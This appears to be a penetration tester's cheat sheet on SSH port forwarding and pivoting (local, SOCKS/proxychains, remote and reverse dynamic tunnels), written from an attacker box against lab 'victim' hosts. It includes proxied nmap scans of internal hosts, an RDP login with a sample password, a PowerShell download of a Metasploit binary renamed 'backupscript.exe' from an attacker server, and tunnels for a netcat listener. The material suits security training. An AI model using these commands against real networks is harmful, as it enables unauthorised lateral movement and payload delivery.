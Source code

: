 ```yaml
---
description: This is more of a cheat sheet for commands.
---
```


# SSH

## Local Port Forwarding

### Local Port Forwarding

```bash
 ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64
```

Opens a listener on local port 1234 (our machine) and sends all traffic to remote port 3306 (10.129.202.64).

### Forwarding multiple ports

```bash
 ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64
```

This SSH command connects to a remote machine and sets up two local port forwards:

1. Local port 1234 forwards to port 3306 on the remote machine (typically MySQL).
2. Local port 8080 forwards to port 80 on the remote machine (typically HTTP).

### Local Port Forwarding Example

<figure><img src="../../.gitbook/assets/Screenshot 2023-10-03 194415.png" alt=""><figcaption></figcaption></figure>

```bash
jumphost@ubuntu ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```

Opens a listener on port 4455 (CONFULENCE01 Jump Host) and forwards all traffic through 10.4.50.215 to 172.16.50.217:445. (PGDATABASE01).

_<mark style="color:red;">**NOTE**</mark>_: **-N** flag is means execute no remote commands. No shell will be opened.

## Dynamic Port Forwarding - Tunneling over SOCKS proxy

Local port forwarding is limited to one socket per SSH connection. OpenSSH allows for dynamic port forwarding. From a single listening port, packets can be forwarded to any socket that the server can route to. **This works because the listening port creates a SOCKS proxy.**

### D_**ynamic Port Forwarding from Attack Host:**_

```shell-session
attacker@kali$ ssh -D 9050 ubuntu@10.129.202.64
```

_<mark style="color:red;">**NOTE:**</mark>_ The **-D** flag enables dynamic port forwarding & ssh acts as a SOCKS server.

```bash
$ tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

### D_**ynamic Port Forwarding From Jump Host:**_

```shell-session
jump-host@ubuntu$ ssh -D 9050 ubuntu@172.167.32.11
```

```bash
┌──(kali㉿kali)-[~]
└─$ tail -f /etc/proxychains4.conf
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5  192.168.198.63  9050 # Ip address of jump host

```

### Using tools with Proxychains:

_**Nmap:**_&#x20;

This is my preferred nmap command to run. (172.16.50.217 is in internal network)

```
kali@kali:~$ proxychains nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```

_**xfreerdp:**_

```bash
kali@kali proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Remote Port Forwarding

Also known as **Reverse Port Forwarding**. In real world scenarios it is likely we'll encounter a firewall that heavily restricts inbound connections. Outbound connections however, are less likely to be blocked.&#x20;

<figure><img src="../../.gitbook/assets/Screenshot 2023-10-04 153523.png" alt=""><figcaption></figcaption></figure>

### Start SSH Service

```shell-session
kali:~$ sudo systemctl start ssh
```

### Connect back to Kali Host

The below command opens a port on localhost 2345 on our kali machine. All traffic is forwarded through the jump host to 10.4.50.215:5432.

<pre class="language-shell-session"><code class="lang-shell-session"><strong>victim@jump-host$ ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
</strong></code></pre>

### Verifying Port Forward

As we can see, our kali box is listening on 127.0.0.1 2345

```
kali@kali$ ss -ntlpu                     
Netid            State             Recv-Q            Send-Q                       Local Address:Port                          Peer Address:Port            Process            
udp              UNCONN            0                 0                                  0.0.0.0:52704                              0.0.0.0:*                                  
tcp              LISTEN            0                 128                              127.0.0.1:2345                               0.0.0.0:*                                  
tcp              LISTEN            0                 128                                0.0.0.0:22                                 0.0.0.0:*                                  
tcp              LISTEN            0                 128                                   [::]:22                                    [::]:*      
```

## Remote Dynamic Port Forwarding

_<mark style="color:red;">**NOTE:**</mark>_ This tends to be the most optimal setup for port forwarding during engagements. We get all the benefits from Dynamic Port forwarding along with the remote configurations.&#x20;

### Create Dynamic Remote Port Forward

Creating a Dynamic Remote Port Forward is similar to creating a Remote port forward. We use the -R command but only with one port. We do not specify and address! Neither do we use -D!

```shell-session
jumphost@ubuntu$ ssh -N -R 9998 kali@192.168.118.4
```

### Update SOCKS Proxy - proxychains

```bash
kali@kali:~$ tail /etc/proxychains4.conf
#       proxy types: http, socks4, socks5, raw
#         * raw: The traffic is simply forwarded to the proxy without modification.
#        ( auth types supported: "basic"-http  "user/pass"-socks )
#
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5 127.0.0.1 9998 # IP address is localhost 127.0.0.1
```

### Verifying Port Forward

As we can see, our kali box is listening on 127.0.0.1 9998

```shell-session
kali@kali$ ss -ntlpu                     
Netid            State             Recv-Q            Send-Q                       Local Address:Port                          Peer Address:Port            Process            
udp              UNCONN            0                 0                                  0.0.0.0:52704                              0.0.0.0:*                                  
tcp              LISTEN            0                 128                              127.0.0.1:9998                               0.0.0.0:*                                  
tcp              LISTEN            0                 128                                0.0.0.0:22                                 0.0.0.0:*                                  
tcp              LISTEN            0                 128                                   [::]:22
```



## Additional Info

### Transferring Metasploit Binary to Victim (on internal network).

We may need to transfer a binary to a machine we've gained access to so we can port forward.

```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```



### Tunneling to Kali Web Server

If the host has ssh we can connect back to our kali box to tunnel traffic.

This is a command to tunnel all traffic through a jump host back to our kali web server. This is useful when downloading tool to a host inside an internal network.&#x20;

```powershell
C:\Users\web_svc>ssh -N -L 0.0.0.0:1234:192.168.45.186:8000 kali@192.168.45.186
```

### Tunneling NC Listener

Like the above command, we can do the same to create a tunnel for a nc listener

```powershell
C:\Users\web_svc>ssh -N -L 0.0.0.0:1234:192.168.45.186:4444 kali@192.168.45.186
```



### Tunnel Internal Web Service

Like we did above we can portforward an internal web service back to our kali host.

#### Reverse Port Forward

```bash
victim@ubuntu ssh -N -R web_service_port:localhost:local_port kali@192.168.45.186
```

#### Local Port Forward

```bash
kali@kali ssh -L local_port:localhost:web_service_port victim@victim_ip
```
